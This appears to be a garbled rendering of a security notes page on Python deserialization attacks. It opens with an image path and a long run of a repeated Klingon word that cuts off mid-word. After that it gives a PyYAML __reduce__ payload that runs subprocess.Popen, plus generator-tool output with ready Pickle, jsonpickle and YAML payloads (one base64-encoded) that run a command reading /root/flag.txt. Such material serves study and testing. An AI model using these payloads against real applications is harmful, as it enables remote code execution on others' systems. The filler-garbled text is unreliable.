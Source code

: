 **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **vItlhutlh** **v
```python
import yaml
from yaml import UnsafeLoader, FullLoader, Loader
import subprocess

class Payload(object):
def __reduce__(self):
return (subprocess.Popen,('ls',))

deserialized_data = yaml.dump(Payload()) # serializing data
print(deserialized_data)

#!!python/object/apply:subprocess.Popen
#- ls

print(yaml.load(deserialized_data, Loader=UnsafeLoader))
print(yaml.load(deserialized_data, Loader=Loader))
print(yaml.unsafe_load(deserialized_data))
```
## tlhIngan Hol

The tool [https://github.com/j0lt-github/python-deserialization-attack-payload-generator](https://github.com/j0lt-github/python-deserialization-attack-payload-generator) can be used to generate python deserialization payloads to abuse **Pickle, PyYAML, jsonpickle and ruamel.yaml:**
```bash
python3 peas.py
Enter RCE command :cat /root/flag.txt
Enter operating system of target [linux/windows] . Default is linux :linux
Want to base64 encode payload ? [N/y] :
Enter File location and name to save :/tmp/example
Select Module (Pickle, PyYAML, jsonpickle, ruamel.yaml, All) :All
Done Saving file !!!!

cat /tmp/example_jspick
{"py/reduce": [{"py/type": "subprocess.Popen"}, {"py/tuple": [{"py/tuple": ["cat", "/root/flag.txt"]}]}]}

cat /tmp/example_pick | base64 -w0
gASVNQAAAAAAAACMCnN1YnByb2Nlc3OUjAVQb3BlbpSTlIwDY2F0lIwOL3Jvb3QvZmxhZy50eHSUhpSFlFKULg==

cat /tmp/example_yaml
!!python/object/apply:subprocess.Popen
- !!python/tuple
- cat
- /root/flag.txt
```